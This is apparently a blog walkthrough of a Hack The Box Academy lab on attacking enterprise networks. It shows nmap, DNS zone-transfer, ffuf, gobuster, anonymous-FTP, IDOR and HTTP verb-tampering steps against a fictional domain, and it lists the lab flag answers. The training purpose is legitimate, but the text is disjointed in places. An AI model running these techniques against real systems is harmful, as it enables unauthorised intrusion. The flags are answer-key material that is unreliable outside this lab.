Welcome to **Part 13** of our comprehensive, production-grade masterclass covering the **Hack The Box (HTB) Academy Certified Penetration Testing Specialist (CPTS)** curriculum. Rather than providing superficial slide summaries, this series deconstructs offensive tradecraft from foundational network discovery and vulnerability verification to complex lateral movement, active directory exploitation, and post-exploitation tradecraft — complete with terminal command flows, verified lab flags, and defensive engineering countermeasures.

In this installment, we conduct an exhaustive technical deep-dive into **Attacking Enterprise Networks** (Tier III • Hard • Offensive). We break down the underlying mechanics of multi-tiered enterprise network penetration testing, lateral movement, pivoting across segmented VLANs, defense evasion, and full-scope adversary simulation, dissect hands-on offensive vectors, analyze realistic defensive telemetry, and walk through every exercise step-by-step with 100% verified solutions.

<div class="ff-series-nav"><a href="/posts/htb-academy-part-12-active-directory-enumeration-and-attacks/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 12: Active Directory Enumeration & Domain Attacks</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 13 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-14-using-web-proxies/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 14: Using Web Proxies (Burp Suite & ZAP)</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>

## Module Specifications & Target Architecture

| Attribute | Specification |
| :--- | :--- |
| **Module Name** | `Attacking Enterprise Networks` |
| **Official HTB Academy Track** | [https://academy.hackthebox.com/module/164](https://academy.hackthebox.com/module/164) |
| **Curriculum Tier & Difficulty** | `Tier III` • `Hard` |
| **Certification Pathway** | `HTB Certified Penetration Testing Specialist (CPTS)` (Part 13 of 41) |
| **Author & Technical Attribution** | `Abdulrahman M. Fathi (0x3bdo)` |
| **Lab Flag Verification** | `100% Fully Solved & Validated` |

## Key Technical Takeaways

* **Network Segmentation Traversal**: Navigates complex internal network boundaries, firewalls, and isolated DMZ subnets using proxy chains and reverse tunnels.
* **Lateral Movement Tradecraft**: Moves horizontally across Windows and Linux domains using WinRM, WMI, SSH, and Pass-the-Hash protocols.
* **Host Enumeration & Situational Awareness**: Audits compromised endpoints for sensitive documentation, cached credentials, and network routing tables.
* **Adversary Infrastructure Staging**: Deploys scalable multi-hop command and control architectures to maintain persistent internal access.
* **Engagement Synthesis**: Correlates multi-host vulnerabilities into comprehensive attack chains that compromise enterprise business objectives.

## Executive Summary & Assessment Scope

Enterprise penetration testing transcends isolated host exploitation, demanding the ability to navigate segmented networks, bypass defensive controls, and compromise multi-tier Active Directory forests.

In this advanced module, we execute a full-scale simulated enterprise assessment. We breach external perimeters, establish multi-hop pivots across restricted subnets, harvest domain credentials, exploit internal management servers, and compromise high-value enterprise targets, providing rigorous technical breakdowns and flag solutions for every exercise.

---

## Comprehensive Lab Walkthrough & Flag Solutions


### Attacking Enterprise Networks

Attacking Enterprise Networks:

Before we begin: throughout the module we will need to configure our
pwnbox /etc/hosts File by adding the line:
[target machine IP] [required vhosts]
To link the vhost to the target IP address. For example:

It can be done with the command
```bash
sudo nano /etc/hosts
```
then pasting the configuration modification, and save and exit with ctrl+x.
Throughout the module this process would be called 'initial configuration'


*_Figure 1.1 — Lab execution and output verification (Page 1)_*


### External Information Gathering

> **Lab Question (Page 2)**: Perform a banner grab of the services listening on the target host and find a non-standard service banner . Submit the name as your answer (format: word_word_word)
>
> **Flag / Answer**: `1337_HTB_DNS`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will need do initial configuration on vhost
'inlanefreight.local' and the target IP.

Now lets run nmap to check for any non-standard services, we will use the
command:
```bash
sudo nmap --open inlanefreight.local -p 1-10000
```
where our target of course is 'inlanefreight.local' (which we linked to the target
machine IP), scanning for the first 1000 ports, displaying what of them are
open:

Lets inspect it further with the command:
```bash
sudo nmap inlanefreight.local --open -p 1-10000 -A -oA
```
inlanefreight_ept_tcp_all_svc
saving the output in an output file called 'inlanefreight_ept_tcp_all_svc', as the
output result is way way too much long and noicy, here is a small sample of it:


*_Figure 2.1 — Lab execution and output verification (Page 2)_*


### We will use the command

#### Technical Methodology & Exploit Execution:

egrep -v "^#|Status: Up" inlanefreight_ept_tcp_all_svc.gnmap
| cut -d ' ' -f4- | tr ',' '\n' | sed -e 's/^[ \t]*//' | awk
-F '/' '{print $7}' | grep -v "^$" | sort | uniq -c | sort -
k 1 -nr


And we have the answer here as 'unknown banner'.


*_Figure 3.1 — Lab execution and output verification (Page 3)_*


*_Figure 3.2 — Lab execution and output verification (Page 3)_*


*_Figure 3.3 — Lab execution and output verification (Page 3)_*


*_Figure 3.4 — Lab execution and output verification (Page 3)_*


### '/usr/share/seclists/Discovery/DNS/namelist.txt'

> **Lab Question (Page 4)**: Perform a DNS Zone Transfer against the target and find a flag. Submit the flag value as your answer (flag format: HTB{ }).
>
> **Flag / Answer**: `HTB{DNs_ZOn3_Tr@nsf3r}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will run zone transfer on the domain using the command:
```bash
dig axfr inlanefreight.local @inlanefreight.local
```


We can see the flag under the subdomain 'flag.inlanefreight.local'

Question: What is the FQDN of the associated subdomain?
Answer: flag.inlanefreight.local
Method: see above.

Question: Perform vhost discovery. What additional vhost exists? (one word)
Answer: monitoring
Method: we will run the command
```bash
ffuf -w /usr/share/seclists/Discovery/DNS/namelist.txt:FUZZ
```
-u http://inlanefreight.local/ -H
'Host:FUZZ.inlanefreight.local' -fs 15157
to use 'ffuf' tool to brute force subdomains, using the wordlist namelist.txt
which is built in, in the box in the path
'/usr/share/seclists/Discovery/DNS/namelist.txt':


*_Figure 4.1 — Lab execution and output verification (Page 4)_*


### Service Enumeration & Exploitation

> **Lab Question (Page 5)**: Enumerate the accessible services and find a flag. Submit the flag value as your answer (flag format: HTB{ }).
>
> **Flag / Answer**: `HTB{0eb0ab788df18c3115ac43b1c06ae6c4}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will check the ftp service, we will run the command:
ftp <target-IP>
and on the credentials we will enter 'anonymous' for username and blank
password:


*_Figure 5.1 — Lab execution and output verification (Page 5)_*


*_Figure 5.2 — Lab execution and output verification (Page 5)_*


### machine with the command

#### Technical Methodology & Exploit Execution:

get flag.txt


Lets exit the ftp server, and cat the flag we had just downloaded:


*_Figure 6.1 — Lab execution and output verification (Page 6)_*


*_Figure 6.2 — Lab execution and output verification (Page 6)_*


### Web Enumeration & Exploitation

> **Lab Question (Page 7)**: Use the IDOR vulnerability to find a flag. Submit the flag value as your answer (flag format: HTB{}).
>
> **Flag / Answer**: `HTB{8f40ecf17f681612246fa5728c159e46}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will need do initial configuration on vhost
'careers.inlanefreight.local' and the target IP .
When its done, lets enter in the pwnbox browser the URL:
'http://careers.inlanefreight.local'


lets create an account:


Then lets login to it


*_Figure 7.1 — Lab execution and output verification (Page 7)_*


*_Figure 7.2 — Lab execution and output verification (Page 7)_*


*_Figure 7.3 — Lab execution and output verification (Page 7)_*


### And now when are logged in

And now when are logged in:

Here are the main dashboard of our user, pay attention that our user was
assigned the 'id' parameter of '9' .
Now – IDOR attack means 'Insecure Direct Object Reference', so lets try to
change the ID value to something else.. lets say 1:

We got the job list of another user! (note, it will not work without registering
first to our own user).
After some trial and error, lets try id=4:


*_Figure 8.1 — Lab execution and output verification (Page 8)_*


*_Figure 8.2 — Lab execution and output verification (Page 8)_*


*_Figure 8.3 — Lab execution and output verification (Page 8)_*


### We will use the command

> **Lab Question (Page 9)**: Exploit the HTTP verb tampering vulnerability to find a flag. Submit the flag value as your answer (flag format: HTB{}).
>
> **Flag / Answer**: `HTB{57c7f6d939eeda90aa1488b15617b9fa}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will need do initial configuration on vhost
'dev.inlanefreight.local' and the target IP .

Now, lets use 'gobuster' to enumerate the domain for pages, we will use the
wordlist 'common.txt' in '/usr/share/seclists/Discovery/Web-
Content/common.txt' built in in the pwnbox.
We will use the command:
```bash
gobuster dir -u http://dev.inlanefreight.local -w
```
/usr/share/seclists/Discovery/Web-Content/common.txt -x .php
-t 300
where dev.inlanefreight.local is our vhost of course:

*
*


*_Figure 9.1 — Lab execution and output verification (Page 9)_*


*_Figure 9.2 — Lab execution and output verification (Page 9)_*


### should succeed

Lets attempt to enter the 'upload.php' page, the status code is 200 so we
should succeed:

We got '403 forbidden' response, which contradict the gobuster 'upload.php'
status code '200' response.
We need to examine the page further.
Lets use the web investigation and analysis tool 'burpsuite':
burpsuite
when entering, a burpsuite window will open, select 'next' and 'start' until we
see the burpsuite main dashboard:

Lets go to 'proxy'  →  'open browser:


*_Figure 10.1 — Lab execution and output verification (Page 10)_*


*_Figure 10.2 — Lab execution and output verification (Page 10)_*


*_Figure 10.3 — Lab execution and output verification (Page 10)_*


### A specialized burpsuite browser will be opened

A specialized burpsuite browser will be opened:

Lets enter it the URL 'http://dev.inlanefreight.local/upload.php':
The proxy window got the http request to that URL:

Lets right click on the request, and send it to a repeater:


*_Figure 11.1 — Lab execution and output verification (Page 11)_*


*_Figure 11.2 — Lab execution and output verification (Page 11)_*


*_Figure 11.3 — Lab execution and output verification (Page 11)_*


*_Figure 11.4 — Lab execution and output verification (Page 11)_*


### Then we open the request in the repeater

Then we open the request in the repeater:


Now the request in the repeater, lets hit send:

Here is the response, and the '403 Forbidden'
Lets change the 'GET' status code in the request to 'OPTIONS':

The 'OPTIONS' status code tells us, among others, what kind of status codes
the server accepts,
In this case its: 'GET' , 'POST' , 'PUT' , 'TRACK' , 'OPTIONS'.
The relevant status for our case is 'TRACK'. Lets try it:


*_Figure 12.1 — Lab execution and output verification (Page 12)_*


*_Figure 12.2 — Lab execution and output verification (Page 12)_*

